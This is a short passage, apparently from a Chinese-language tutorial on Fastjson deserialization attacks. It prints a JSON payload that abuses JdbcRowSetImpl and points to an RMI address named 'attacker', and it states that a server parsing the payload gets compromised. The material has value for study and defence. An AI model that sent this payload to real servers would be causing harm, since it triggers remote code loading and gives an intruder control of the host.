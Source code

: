 ![](../images/2021/04/01/025.png)

![](../images/2021/04/01/026.png)



于是，json就可以为这样子：

```json
{
    "@type":"com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName":"rmi://localhost:1099/attacker",
    "autoCommit":true
}
```

这样，当被攻击服务器解析这段json时，就会被攻击
